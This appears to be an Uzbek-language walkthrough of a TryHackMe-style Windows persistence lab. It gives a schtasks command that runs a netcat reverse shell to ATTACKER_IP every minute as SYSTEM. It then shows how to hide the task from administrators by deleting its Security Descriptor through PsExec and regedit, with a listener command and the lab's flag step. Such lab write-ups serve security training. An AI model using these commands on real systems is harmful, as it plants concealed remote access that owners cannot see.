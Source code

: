 ### 🎯 **Persistence uchun Scheduled Task (rejalashtirilgan vazifa) yaratish**

Windows tizimlarida payload (zararli dastur yoki buyruq) ni qayta-qayta ishga tushirish uchun rejalashtirilgan vazifalardan foydalanish mumkin. Bu usul tizimda **uzoq muddatli yashirin mavjudlik (persistence)** yaratish uchun ishlatiladi.

---

### 🧰 **1. Task Scheduler yordamida Payload ishga tushirish**

Windows’ning o‘zida mavjud bo‘lgan **Task Scheduler** eng keng tarqalgan rejalashtiruvchi vositadir. Bu vosita yordamida vazifani:

* Aniq vaqtda ishga tushirish
* Doimiy ravishda takrorlash
* Tizimda maxsus voqealar yuz berganda ishga tushirish
  kabi holatlar uchun sozlash mumkin.

**Buyruq satridan** foydalanib rejalashtirilgan vazifalarni boshqarish uchun `schtasks` buyrug‘i mavjud.

---

### 📌 **Misol: Har daqiqada reverse shell ishga tushiruvchi vazifa yaratish**

```cmd
C:\> schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
```

**Tushuntirish:**

* `/sc minute` – har daqiqada ishga tushirilsin
* `/mo 1` – har 1 daqiqada
* `/tn THM-TaskBackdoor` – vazifa nomi `THM-TaskBackdoor`
* `/tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449"` – ishga tushiriladigan buyruq: bu yerda `nc64` orqali `cmd.exe` ni masofadagi hujumchiga ulaydi (reverse shell)
* `/ru SYSTEM` – SYSTEM huquqlari bilan ishga tushadi

✅ Bu buyruq muvaffaqiyatli bajarilgach, vazifa har daqiqada reverse shell yuboradi.

---

### ✅ **Yaratilgan vazifani tekshirish:**

```cmd
C:\> schtasks /query /tn thm-taskbackdoor
```

Chiqariladi:

```
Folder: \
TaskName             Next Run Time         Status
===================  ====================  ==========
thm-taskbackdoor     5/25/2022 8:08:00 AM  Ready
```

---

### 🕵️ **2. Vazifani yashirish – ko‘zga ko‘rinmas qilish**

Endi esa foydalanuvchi rejalashtirilgan vazifalarni ko‘rganda, bu backdoor ko‘rinib qolmasligi uchun uni **yashirish** kerak.

Buni **Security Descriptor (SD)** ni o‘chirish orqali amalga oshiramiz. SD – bu rejalashtirilgan vazifaning kimlar ko‘rishi va o‘zgartirishi mumkinligini belgilovchi **ACL (Access Control List)** hisoblanadi. Uni o‘chirsangiz – hech kim, hatto administrator ham bu vazifani ko‘ra olmaydi.

SD Windows reestrida quyidagi yo‘lda joylashgan:

```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\
```

Har bir vazifaning SD qiymatini faqat **SYSTEM huquqi** bilan o‘chirish mumkin.

---

### 🛠 **SD ni o‘chirish:**

1. **`regedit` dasturini SYSTEM huquqi bilan ochamiz**:

```cmd
C:\> c:\tools\pstools\PsExec64.exe -s -i regedit
```

2. Ochilgan **Regedit** orqali quyidagi yo‘lga o‘tamiz:

```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\THM-TaskBackdoor
```

3. O‘sha yerda `SD` degan qiymatni o‘chiramiz.

---

### 🔍 **Endi vazifa yashirin bo‘lib qoladi:**

```cmd
C:\> schtasks /query /tn thm-taskbackdoor
```

Chiqariladi:

```
ERROR: The system cannot find the file specified.
```

➡️ Vazifa hali mavjud, ammo ko‘rinmaydi!

---

### 🐚 **Reverse Shell ni tekshirish:**

Hujumchi mashinasida listener ishga tushuramiz:

```bash
user@AttackBox$ nc -lvp 4449
```

Bir daqiqa ichida `cmd.exe` bilan ulanish bo‘ladi (reverse shell).

---

### 🎯 **Vazifa: flag9 olish**

Shell ichida quyidagi buyruqni bajaramiz:

```cmd
C:\> C:\flags\flag9.exe
```

Bu flagni konsolga chiqaradi.
